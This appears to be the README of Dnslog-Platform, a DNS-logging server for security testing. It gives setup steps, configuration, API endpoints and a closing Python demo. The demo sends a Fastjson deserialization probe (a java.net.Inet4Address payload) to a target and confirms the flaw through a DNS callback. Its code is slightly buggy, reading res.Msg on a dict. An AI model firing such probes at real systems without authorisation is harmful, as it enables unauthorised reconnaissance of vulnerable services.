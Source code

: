 # 简介
---
Dnslog-Platform 改自项目 https://github.com/lanyi1998/DNSlog-GO

演示截图:

![avatar](https://github.com/lanyi1998/DNSlog-GO/raw/master/images/demo.png)

功能修改详情:  
1. 使用`gin`框架替换原生框架
2. 增加`xip`功能实现，参考`xip.io`
3. 优化部分逻辑；修改原项目子域生成逻辑，由服务端实现
4. 修改`readme`中的部分安装逻辑，由原来的`2`个域名和`1`个公网 IP 变成`1`个域名和`1`个公网 IP 
5. 增加`ddns`功能 (todo，完成`delDDns`、`getDDnsList`、`setDDns`api)

# 安装
---

参考原项目 https://github.com/lanyi1998/DNSlog-GO ，部分内容有变化

## 0.准备工作

1. 一个域名，域名提供商需要支持自定义 NS 记录
2. 一个公网IP

## 1.获取发行版

这里 https://github.com/6f3Ng/Dnslog-Paltform/releases 下载最新发行版,并解压

## 2.域名解析与公网 IP 准备

```
配置A记录，子域名ns1，解析到 7.7.7.7（你的公网ip）
配置A记录，子域名ns2，解析到 7.7.7.7（你的公网ip）
配置NS记录，子域名dns，解析到ns1.xxx.com（用于ddns）
配置NS记录，子域名dns，解析到ns2.xxx.com（用于ddns）
配置NS记录，子域名xip，解析到ns1.xxx.com（用于xip）
配置NS记录，子域名xip，解析到ns2.xxx.com（用于xip）
配置NS记录，子域名log，解析到ns1.xxx.com（用于dnslog）
配置NS记录，子域名log，解析到ns2.xxx.com（用于dnslog）
配置A记录，子域名www，解析到 7.7.7.7（你的公网ip）
```

## 3.修改配置文件 config.ini

```ini
[HTTP]
Port = 8080  //http web监听端口
Token = admin1,admin2 //多个用户token，用,分割。可以团队成员一起使用了
ConsoleDisable = false //是否关闭web页面
    
[DNS]
Domain = dns.demo.com //预留用于ddns
Xip = xip.demo.com //用于xip解析
Dnslog = log.demo.com //用于dnslog解析
```

## 4.启动对应系统的客户端，注意服务端重启以后，必须清空一下浏览器中的localStorage,否则会获取不到数据

## 5.注册为系统服务，随系统启动
在`/etc/systemd/system/`创建`dnslog.service`，填入以下内容
```ini
[Unit]
Description=DnsLog

[Service]
Type=simple
ExecStart=/root/dnslog/Dnslog-Paltform # 客户端文件位置
Restart=always
StartLimitInterval=5
RestartSec=5
WorkingDirectory=/root/dnslog/ # 配置文件位置

[Install]
WantedBy=multi-user.target
```
执行以下命令
```shell
systemctl start dnslog.service # 启动服务
systemctl enable dnslog.service # 设置为开机自启动
systemctl status dnslog.service # 查看dnslog运行状态
```
## 6.DDNS api
```
[GET] /api/getDDnsList [HEADER] token:token1
[GET] /api/setDDns [PARAM] domain=aaa.dns.demo.com(&ip=192.168.220.100) [HEADER] token:token1
[GET] /api/delDDns [PARAM] domain=aaa.dns.demo.com [HEADER] token:token1
```

# API Python Demo
原项目中的 api 查询实例

```python
import requests
import random
import json


class DnsLog():
    domain = ""
    token = ""
    Webserver = ""

    def __init__(self, Webserver, token):
        self.Webserver = Webserver  # dnslog的http监听地址，格式为 ip:端口
        self.token = token  # token
        # 检测DNSLog服务器是否正常
        try:
            res = requests.post("http://" + Webserver + "/api/verifyToken", json={"token": token}).json()
            self.domain = res.Msg
        except:
            exit("DnsLog 服务器连接失败")
        if res["Msg"] == "false":
            exit("DnsLog token 验证失败")

    # 生成随机子域名
    def randomSubDomain(self, length=5):
        subDomain = ''.join(random.sample('zyxwvutsrqponmlkjihgfedcba', length)) + '.' + self.domain
        return subDomain

    # 验证子域名是否存在
    def checkDomain(self, domain):
        res = requests.post("http://" + self.Webserver + "/api/verifyDns", json={"Query": domain},
                            headers={"token": self.token}).json()
        if res["Msg"] == "false":
            return False
        else:
            return True


url = "http://192.168.41.2:8090/"

dns = DnsLog("1111:8888", "admin")

subDomain = dns.randomSubDomain()

payload = {
    "b": {
        "@type": "java.net.Inet4Address",
        "val": subDomain
    }
}

requests.post(url, json=payload)

if dns.checkDomain(subDomain):
    print("存在FastJosn")
```

